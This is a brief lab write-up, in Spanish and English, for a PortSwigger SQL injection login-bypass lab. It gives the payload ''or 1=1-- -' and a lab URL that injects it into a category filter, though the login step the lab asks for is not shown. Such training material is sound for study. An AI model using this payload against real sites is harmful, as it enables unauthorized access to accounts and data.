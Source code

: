 # Lab: SQL injection vulnerability allowing login bypass

- [Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

## Descripción:

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

---

### Explicación:


## Solución:

1. Abrir laboratorio y buscar en donde me puedo autenticar

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/dfe5453b-1098-4799-a0fd-a7a940683d9f)


2. Si filtro puedo empezar a ver el query desde la URL

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/4349813d-9f17-4542-9695-ed2d23113a01)

3. Query que usé

````sql
'or 1=1-- -
````
````http
https://0adf002604af55028177ed87004400b4.web-security-academy.net/filter?category=Lifestyle'or 1=1-- -
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/22e3492e-a7c7-4573-a966-73830aa681fe)




